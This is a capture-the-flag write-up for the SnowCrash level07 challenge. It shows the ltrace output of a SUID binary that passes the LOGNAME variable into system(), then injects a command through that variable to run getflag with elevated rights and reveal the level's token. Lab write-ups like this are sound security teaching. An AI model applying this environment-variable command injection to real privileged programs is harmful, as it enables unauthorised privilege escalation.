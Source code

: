 In home directory tere is executable file with SUID bit:
```shell
level07@SnowCrash:~$ ls -la
[...]
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```
Runing ltrace shows that file calls <getenv("LOGNAME")> and print the result
```shell
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                          = 2007
geteuid()                                                                          = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                = 0
getenv("LOGNAME")                                                                  = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff1e, 0xb7e5ee55, 0xb7fed280)                = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                             = 0
+++ exited (status 0) +++
```
So I can change value of env "LOGNAME" and call getflag from user flag07:
```shell
level07@SnowCrash:~$ export LOGNAME='echo `getflag`'
level07@SnowCrash:~$ env | grep LOGNAME
LOGNAME=echo `getflag`
level07@SnowCrash:~$ ./level07 
echo Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```